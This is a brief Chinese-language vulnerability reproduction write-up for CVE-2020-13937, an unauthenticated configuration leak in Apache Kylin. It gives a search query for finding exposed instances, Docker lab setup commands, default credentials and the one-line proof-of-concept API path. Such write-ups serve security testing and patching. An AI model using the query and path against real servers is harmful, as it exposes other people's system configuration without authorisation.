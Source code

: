 # Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## 网络测绘

```
app="APACHE-kylin"
```

## 环境搭建

```
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![image-20220525161044773](./images/202205251610838.png)

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220525161140820](./images/202205251611885.png)